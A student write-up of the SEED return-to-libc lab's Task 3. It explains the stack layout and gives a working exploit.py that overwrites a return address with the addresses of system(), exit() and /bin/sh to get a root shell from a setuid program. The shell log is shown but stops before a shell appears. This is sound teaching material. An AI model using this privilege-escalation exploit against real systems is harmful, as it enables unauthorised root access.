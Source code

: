 
## Task 3
Okay;  now that we know the address of `system()` and `exit()` and `/bin/bash` we are ready to attack. First we should change the return address of `bof()` to the address of `system()`, now when we return from `bof()` we need to track the `%esp` and `%ebp` registers to find out where we should put the address of `\bin\bash`.when `%eip` is at the beginning of `system()` function, `%esp` is above the `ret`. Now the machine will run the Prologue of the system function and the following happens:
1. `%esp` decrements by 4. So now `%esp` is pointing to where the return address of `bof()` was.
2. `%ebp` is set to the current value of `%esp`.
3. `%esp` is further moved down to make space for `system()` local variables.

Now the `system()` expects its one and only argument to be 8 bytes above the `%ebp`. So after all we have the below diagram:

|                        Stack(before)                         |                       Stack(after)                       |
| :----------------------------------------------------------: | :------------------------------------------------------: |
|                            empty                             | address of `/bin/bash` (the only argument of `system()`) |
|     address of input pointer (first argument of `bof()`)     |             the return address of `system()`             |
| `bof()` return address (which we change to  `system()` address) |               frame pointer of `system()`                |
|                    `bof()` frame pointer                     |           probably a local variable of system            |

Based on above we complete the `exploit.py` as below:

```python
buffer_addr = 0xffffcebd
ebp = 0xffffced8
sh_addr = 0xffffd50d       # The address of "/bin/sh"
system_addr = 0xf7e13420   # The address of system()
exit_addr = 0xf7e05f80     # The address of exit()


# Fill content with non-zero values
content = bytearray(0xaa for i in range(50))

X = ebp - buffer_addr + 12
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = ebp -buffer_addr + 4
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = ebp - buffer_addr + 8
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
Now when we feed the `badfile` to `retlib` is gives us access to a root shell!
```bash
seed@seed:~/Desktop/return-to-libc-lab$ make clean
rm -f *.o *.out retlib  badfile
seed@seed:~/Desktop/return-to-libc-lab$ make
gcc -m32 -DBUF_SIZE=15 -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib && sudo chmod 4755 retlib
seed@seed:~/Desktop/return-to-libc-lab$ ./exploit.py 
seed@seed:~/Desktop/return-to-libc-lab$ xxd badfile 
00000000: aaaa aaaa aaaa aaaa aaaa aaaa aaaa aaaa  ................
00000010: aaaa aaaa aaaa aaaa aaaa aaaa aaaa aa20  ............... 
00000020: 34e1 f780 5fe0 f70d d5ff ffaa aaaa aaaa  4..._...........
00000030: aaaa                                     ..
seed@seed:~/Desktop/return-to-libc-lab$ ./retlib 
Address of input[] inside main():  0xffffcef0
Input size: 50
```